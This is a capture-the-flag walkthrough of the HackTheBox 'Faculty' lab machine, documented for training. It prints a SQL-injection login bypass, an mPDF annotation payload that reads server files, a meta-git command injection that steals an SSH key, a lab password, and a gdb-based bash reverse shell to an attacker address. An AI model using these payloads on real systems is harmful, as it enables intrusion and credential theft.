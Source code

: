 # HackTheBox Faculty Machine Walkthrough

<img src="/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/faculty/Writeup/Faculty.png" style="zoom:50%;" />

## Recon

First, let's start with nmap port scanning.

![](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/faculty/Writeup/nmap-results.png)

We can see that port 80 is open so let's check the running web service.

![](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/faculty/Writeup/Website.png)

Running gobuster against the site. it shows the following results:

![](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/faculty/Writeup/gobuster-1.png)

This `/admin` path looks interesting, so let's run gobuster against it (this will come in handy later).

![](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/faculty/Writeup/gobuster-2.png)

Now if we can go to the `/admin` path we can see a login page.

I tried admin/admin as the login creds but it didn't work, so I tried basic SQL injection ` admin' or 1=1 -- -` in the username field and it successfully bypassed the login page.

![](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/faculty/Writeup/bypass-login.png)

![](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/faculty/Writeup/administrator-page.png)

After some checks in website I found a page where I can upload a new pdf file and download a pdf file containing the list of uploaded pdfs.

![faculty-list](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/faculty/Writeup/faculty-list.png)

When I clicked on the download pdf button, I noticed `mpdf` in the generated file url.

![](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/faculty/Writeup/mpdf.png)

Searching for `mpdf`, it turned out to be a `PHP library which generates PDF files from UTF-8 encoded HTML`.

We can also intercept the request in burp and decode the `pdf` parameter to see the decoded HTML file ( base64 and url decode twice).

![pdf-burp](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/faculty/Writeup/pdf-burp.png)

A quick search and I found a vulnerability for `mpdf` library (CVE-2019-1000005).

We can test that the vulnerability works using (\<img src="http://10.10.x.x/"\>) as the HTML file then encode it and replace the pdf parameter in the burp request with it.

![cyberchef](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/faculty/Writeup/cyberchef.png)

nc returns a response, NOICE!

![](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/faculty/Writeup/test-vuln-2.png)

## Shell as gbyolo

Now that the vulnerability is working, we can try to read different files from the server using this payload:

`<annotation file=\"/etc/passwd\" content=\"/etc/passwd\"  icon=\"Graph\" title=\"Attached File: /etc/passwd\" pos-x=\"195\" />`

![](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/faculty/Writeup/lfi.png)

`/etc/passwd`

<img src="/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/faculty/Writeup/passwd.png" style="zoom: 67%;" /> 

`./login.php`

![](/home/emperor10/Pictures/login.png)

Notice the included file `./db_connect.php`, let's try to read it.

![](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/faculty/Writeup/db_connect.png)

We found a password, so I tried it with the username `gbyolo` as ssh creds.

username: `gbyolo`
password: `Co.met06aci.dly53ro.per`

![](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/faculty/Writeup/gbyolo-user.png)

## Shell as developer

Running `sudo -l`, we can see that `gbyolo` user can run `meta-git` (a NPM package that can manage your meta repo and child git repositories) as `developer` user.

I found a [report](https://hackerone.com/reports/728040) on hackerone showing an RCE exploit for this package so I crafted this payload to read the rsa key for the `developer` user.

`sudo -u developer /usr/local/bin/meta-git clone 'test||cat /home/developer/.ssh/id_rsa' `.

![](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/faculty/Writeup/developer-id_rsa.png)

> Remember to change the permissions of the `id_rsa` file to 600

Now we can ssh into box with `developer` user and read `user.txt`.

![](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/faculty/Writeup/developer-user.png)

## Shell as root

Running [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), I found that `gdb` has `CAP_SYS_PTRACE` capability which allows it to debug any other process.

![](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/faculty/Writeup/gdb.png)

So let's search for a python process running as `root` user to be able to run a system command using python's `system()` function:

`ps aux | grep "^root.*python3" | awk '{print $2}'`

Found one, now attach gdb to it.

`gdb -p $PID`

![gdb](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/faculty/Writeup/gdb-exploit-1.png)

Finally run a nc listener on our side and call `system()` function to get a reverse shell.

`call (void)system("bash -c 'bash -i >& /dev/tcp/10.10.x.x/4444 0>&1'")` 

![gdb](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/faculty/Writeup/gdb-exploit-2.png)

![gdb](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/faculty/Writeup/root.png)